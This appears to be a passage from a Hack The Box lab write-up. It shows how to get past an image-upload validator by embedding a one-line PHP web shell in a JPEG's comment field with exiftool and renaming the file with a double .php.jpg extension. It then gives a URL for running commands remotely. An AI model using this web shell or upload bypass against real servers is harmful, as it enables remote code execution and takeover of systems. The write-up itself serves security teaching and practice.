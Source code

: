 No luck. There is some level of image validation occurring here, so let's try a different route. Chances are, the validator is looking at the MIME type and the extension.

Using the `exiftool`, let's add some simple PHP code to the comment metadata of an image that will allow RCE on the box, if it bypasses the validator.

Additionally, in order for our browser to execute the code injected in the image, we need to add the PHP extension to the image name, but we must still keep the JPEG extension at the end, as this will allow the image through.

```bash
$ sudo exiftool -Comment='<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>' sponge.jpg
$ mv sponge.jpg sponge.php.jpg
```

Let's try to get this uploaded.

![](/assets/img/posts/htb/05-2020/success.png)

Success! Using the following URL, we should be able to execute commands remotely: `http://10.10.10.185/images/uploads/photo.php.png?cmd=COMMAND`

It looks like we are able to do so.
